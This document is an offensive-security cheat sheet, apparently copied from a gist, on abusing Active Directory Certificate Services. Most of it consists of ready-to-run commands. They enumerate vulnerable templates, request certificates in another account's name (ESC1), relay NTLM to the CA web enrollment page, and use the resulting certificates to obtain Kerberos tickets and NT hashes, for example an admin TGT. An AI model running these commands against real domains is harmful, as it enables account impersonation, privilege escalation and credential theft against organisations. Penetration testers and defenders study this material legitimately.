 # AD Certificate Services (PKI Abuse)
(copied from https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux

Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=/full/path/to/<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux
 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
## Authenticating using cert on Linux

Request an TGT from Certificate with Client Auth or Smart Card Auth
```shell
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
 ```

Get NTHash from requestd TGT above (KEY is outputed from the command above) 
```shell
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```
Note: You have to change the KRB5CCNAME variable to the target users tgt ccache file first (admin_tgt.ccache above):
```shell
export KRB5CCNAME=/full/path/to/admin_tgt.ccache
```

## Relaying On Linux

Relaying incoming SMB/HTTP connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```

# Pass-The-Certificate
From: https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate    
A Kerberos service ticket, can only be obtained by presenting a TGT. This TGT can be obtained by
a) ASREPRoast (if Kerberos pre-auth is disabled)
b) symmetrical pre-authentication (using a DES,RC4,AES128 or AES256 key)
c) asymmetrical pre-authentication (using certificates) --> This is also called PKINIT

Pass-The-Certificate is the fancy given name of this certificate based pre-authentication.   

NOTE: Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. 

## Windows
`Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show`   

NOTE: PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.   
`openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"`   

## Unix 
```
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```
Alternatively, certipy (python) can be used:   
`certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'`   
Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file:   
`certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"`   

The ticket obtained can then be used to:   
1. authenticate with [pass-the-cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc)   
2. conduct an [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) attack. This can be done with getnthash.py from PKINITtools.   
3. obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from PKINITtools.   

NOTE: When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the TGT obtained.   
